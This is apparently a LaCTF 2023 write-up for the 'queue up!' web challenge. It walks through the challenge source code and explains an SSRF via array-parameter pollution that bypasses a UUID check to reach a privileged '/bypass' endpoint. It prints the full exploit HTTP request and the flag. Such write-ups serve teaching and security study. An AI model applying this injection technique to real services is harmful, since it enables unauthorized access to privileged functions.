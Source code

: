 ```yaml
---
layout: post
title: "LaCTF 2023 - queue up! [Web]"
categories: ctf
tags: web ikerl
date: 2023-02-12 22:00:00 +0100
author: ikerl
---
```



# queue up! - LaCTF 2023

queue up! is a web challenge in LaCTF 2023 that ended with XX solves. The goal is to retrieve a flag that is sent by a web application when the queue goes down and the timer reaches zero. However, with over 20,000 users waiting for the flag, the estimated time to win is about 80+ days (with only one flag being sent every 5 minutes).

```
I've put the flag on a web server, but due to high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag eventually.

Disclaimer: Average wait time is 61 days.
```

![](queued.png)

## Analysis of the Application Design

The first step in solving this challenge is to analyze the source code to identify the most important features to test. The web app consists of two independent servers: the flag server (https://qu-flag.lac.tf/) and the queue server (https://qu-queue.lac.tf/).

The flag server only performs two tasks: if the user requests `/` using the GET method, they will be redirected to the queue server, and if the timer of the queue server reaches zero, the user will be redirected back to the flag server using the POST method, and the flag will be sent.

This is the high-level logic of the web application:

- The user arrives to the flag server.
- The user cannot read the flag until his timer reaches zero, so he is redirected to the queue server to wait.
- When the timer reaches zero the user has the option of being redirected back to the flag server in order to get the flag.

## Source Code Analysis

```javascript=
    app.get("/api/:uuid/status", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            res.send(user.served);

        } catch {
            res.send("false");
        }

    });

    app.get("/api/:uuid/bypass", async (req, res) => {
        try {
            const user = await Queue.findByPk(req.params.uuid);
            if (user === undefined) {
                res.send("uuid not found");
            } else {
                await user.update({served: true});
                res.send("bypassed");
            }
        } catch {
            res.send("invalid uuid");
        }

    });
```

During the source code analysis, two key points were identified:

- The queue server has two privileged functionalities only available to administrators. The first is to prioritize users in the queue, reducing waiting time, and the second is to check the status of users in the queue to determine if they can receive the flag.
- The flag server has a uuid verification process. The user submits their uuid in the request body, and the server checks if:
    - The uuid has a length of 36
    - The uuid contains only numbers, letters, and hyphens.
    - If both requirements are met, the flag server will execute a request to the queue server's status functionality to determine if the user can receive the flag.

```javascript=
app.post("/", async function (req, res) {
    let uuid;
    try {
        uuid = req.body.uuid;
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }

    if (uuid.length != 36) {
        res.redirect(process.env.QUEUE_SERVER_URL);
        return;
    }
    for (const c of uuid) {
        if (!/[-a-f0-9]/.test(c)) {
            res.redirect(process.env.QUEUE_SERVER_URL);
            return;
        }
    }


    const requestUrl = `http://queue:${process.env.QUEUE_SERVER_PORT}/api/${uuid}/status`;
    try {
        const result = await (await fetch(requestUrl, {
            headers: new Headers({
                'Authorization': 'Bearer ' + process.env.ADMIN_SECRET
            })
        })).text();
        if (result === "true") {
            console.log("Gave flag to UUID " + uuid);
            res.send(process.env.FLAG);
        } else {
            res.redirect(process.env.QUEUE_SERVER_URL);
        }
    } catch {
        res.redirect(process.env.QUEUE_SERVER_URL);
    }

});
```

## Vulnerability and Exploitation

There is a critical vulnerability in the checks performed by the flag server. By using arrays, it is possible to bypass both checks and modify the server's request (SSRF) to bypass the user's position in the queue.

The exploit used during this challenge involves sending a POST request to the `/` endpoint of the flag server with the uuid as a POST parameter in the body. This will retrieve the flag.

```
POST / HTTP/1.1
Host: qu-flag.lac.tf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 366

uuid[]=70964ab7-1025-4f86-a378-ab3b737bed3a/bypass?&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a&uuid[]=a
```

![](flag.png)

Note: When clicking the Get my flag! button, the connection may fail because it uses HTTP instead of HTTPS.

Flag: `lactf{Byp455in_7he_Qu3u3}`